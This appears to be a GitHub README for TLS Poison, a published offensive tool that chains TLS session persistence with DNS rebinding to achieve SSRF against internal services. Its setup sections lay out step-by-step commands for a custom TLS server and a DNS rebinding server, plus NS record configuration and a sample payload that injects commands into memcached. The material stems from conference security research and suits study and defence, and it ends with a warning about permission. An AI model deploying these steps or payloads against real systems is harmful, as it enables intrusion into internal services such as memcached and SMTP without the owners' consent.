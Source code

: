 # TLS Poison

A tool that allows for generic SSRF via TLS, as well as CSRF via image tags
in most browsers.  The goals are similar to
[SNI injection](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf),
but this new method uses inherent behaviors of TLS,
instead of depending upon bugs in a particular implementation.

This was originally presented at [Blackhat USA 2020](https://www.blackhat.com/us-20/briefings/schedule/#when-tls-hacks-you-19446)
as well as [DEF CON Safemode](https://www.defcon.org/html/defcon-safemode/dc-safemode-speakers.html#Maddux).

A big thanks goes out to [rustls](https://github.com/ctz/rustls) and 
[dns-mitm](https://github.com/SySS-Research/dns-mitm), each of which this
is mostly just a strange patched fork.

## Motivation
Back when gopher support was common, people got a lot of mileage out of
using it for SSRF.  So much so that there's pretty good tooling like
[Gopherus](https://github.com/tarunkant/Gopherus) for doing so. This 
is because there are some software packages that often sit unauthenticated
on localhost or on an internal network.  A common one is memcached,
because writing to memcached can often become RCE.  

What if we could replicate this behavior, but instead of giving
the attack target a `gopher://` URL which isn't often supported, we
give it an `https://` URL?  This has been done before with SNI injection,
but what if we did it in a more universal way?

It turns out TLS provides us with the perfect thing - session persistence!
I plan on eventually writing up how this works, as well as more detail on
what attacks can be done with it.  For now you can either watch the Blackhat
or DEF CON talk, or attempt to decipher the following diagram I came up
with a while back:
![tes](diagram.svg)

## Instructions
As a heads up, you will need a domain where you can set NS records.
If needed can find a few free subdomain providers which may work by
[searching around](https://www.google.com/search?q=free+subdomain+hosting+with+ns+record),
but I have only tried with a dedicated top-level domain.  In any case
I'd recommend holding off on registering anything until you complete the
first few steps to make sure everything's working properly.
### TLS server
This should be on something public, where the DNS rebinding server will
eventually resolve to.  You should probably use a dedicated box/VM for
this, since you'll end up exposing whatever port you want to target, e.g.
11211 for memcached or 25 for SMTP.
```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```
 
 ### DNS rebinding server
 You'll need this on a public box as well.  If you know for sure your
 box doesn't have a `systemd-resolved` stub resolver, it can be on the
 same box as `custom-tls`, but I'd recommend putting this on its own.
 ```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

### Setting up the NS record and certificates
You'll need to set up an NS record and a glue record so that DNS requests 
go to your rebinding server.  For example, if your domain is example.com,
you should add:
```
dns.example.com A 300 <DNS_IP>
tlstest.example.com NS 300 dns.example.com
```
Then to get a TLS certificate for `tlstest.example.com`, go to the
[certbot DNS instructions](https://certbot.eff.org/docs/using.html#dns-plugins) and complete a DNS challenge for it.  Then, go back to
`custom-tls` and rerun it:
```bash
target/debug/custom-tls  -p 8443--verbose --certs letsencrypt-cert.fullchain --key letsencrypt-key.rsa http
```
Now you're set up to attack real stuff!  When something makes a request to
`https://tlstest.jmaddux.com:8443`, both the TLS session poisoning and DNS
rebinding steps should be fully functional.

### Putting it all together
To use this in different situations, you'll need to vary a few things:
- port: Your TLS server will need to run on this port, since rebinding only
switches up the domain (e.g. tlstest.example.com:11211 can be either 35.x.x.x:11211,
or 127.0.0.1:11211)
- sleep: The duration the TLS server sleeps between redirects.  This varies
based upon what software you are sending custom-tls server, instead of what
internal service you're attacking.  For example, testing curl-initited SSRF this
can be 10000ms, but for chrome-based stuff it can be quite short.  On the other
hand, if you see the attacks failing because you hit a maximum number of redirects,
consider increasing this to 59000ms or beyond.  If you don't see TLS sessions being
persisted and re-delivered to the internal service, it can often be fixed by
varying the sleep time.
- payload: Typically will start with a newline, and then have whatever commands
you want to inject into the protocol you're targeting.

For example, for memcached:
```bash
redis-cli
127.0.0.1:6379> set payload "\r\nset foo 0 0 14\r\nim in ur cache \r"
Ctrl+c
# Note the following is port 11211 now.
target/debug/custom-tls -p 11211 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa -p 11211 http
```
Then run you can supply https://tlstest.example.com:11211 as your SSRF payload.
Good luck, and make sure not to attack anything you don't have permission!
